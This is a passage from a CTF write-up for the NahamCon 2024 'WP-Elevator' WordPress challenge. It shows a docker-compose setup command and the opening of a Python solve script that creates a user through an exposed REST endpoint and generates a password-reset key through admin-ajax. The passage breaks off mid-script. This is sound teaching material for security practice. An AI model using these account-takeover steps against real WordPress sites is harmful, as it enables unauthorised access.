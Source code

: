 This is because the `docker.compose.yml`'s service `wp_service_1` exposes port `8686`, but the `.env` file sets to port `8687`.

**After that, we can build and run in detach mode for all the Docker containers via `docker-compose`:**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Sponsorship/WP-Elevator)-[2024.05.28|15:43:12(HKT)]
└> docker-compose -f 'docker-compose.yml' up -d --build
```

Now we should be able to access the WordPress application at `http://localhost:8686/`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240528154821.png)

**To get the flag, I wrote a solve script to automate all the above exploitation steps:**
```python
#!/usr/bin/env python3
import requests
import random
from string import ascii_lowercase

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.session = requests.Session()
        self.username = ''.join(random.choice(ascii_lowercase) for i in range(10)) # generate 10 characters random username
        self.email = ''.join(random.choice(ascii_lowercase) for i in range(10)) + '@test.local' # generate random email address
        self.password = ''.join(random.choice(ascii_lowercase) for i in range(10)) # generate 10 characters random password
        self.userId = int()
        self.nonce = str()
        self.CREATE_USER_REST_API_ENDPOINT = '/wp-json/user/v1/create'
        self.AJAX_ENDPOINT = '/wp-admin/admin-ajax.php'
        self.AJAX_ACTION_RESET_KEY = '?action=reset_key'
        self.AJAX_ACTION_GET_LATEST_POSTS = '?action=get_latest_posts'
        self.AJAX_ACTION_PATCHSTACK_FLAGGER = '?action=patchstack_flagger'
        self.PARAMETER_RESET_PASSWORD_ACTION = '?action=rp'
        self.LOGIN_PAGE_ENDPOINT = '/wp-login.php'
        self.LOGIN_PAGE_ENDPOINT_RESET_PASSWORD = f'{self.LOGIN_PAGE_ENDPOINT}{self.PARAMETER_RESET_PASSWORD_ACTION}'
        self.CHARACTER_SET = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

    def createNewUser(self):
        print('[*] Creating a new user...')
        bodyData = {
            'username': self.username,
            'email': self.email
        }

        response = self.session.post(f'{self.baseUrl}{self.CREATE_USER_REST_API_ENDPOINT}', 
                          json=bodyData)
        self.userId = response.json()['user_id']
        print(f'[+] Created a new user. Username: {self.username}, user ID: {self.userId}')

    def generateActivationKey(self):
        print(f'[*] Generating a password reset activation key for user "{self.username}"...')
        bodyData = { 'user_id': str(self.userId) }

        self.session.post(f'{self.baseUrl}{self.AJAX_ENDPOINT}{self.AJAX_ACTION_RESET_KEY}', 
                          data=bodyData)
        print(f'[+] Generated a password reset activation key for user "{self.username}"')

    def resetPassword(self):
```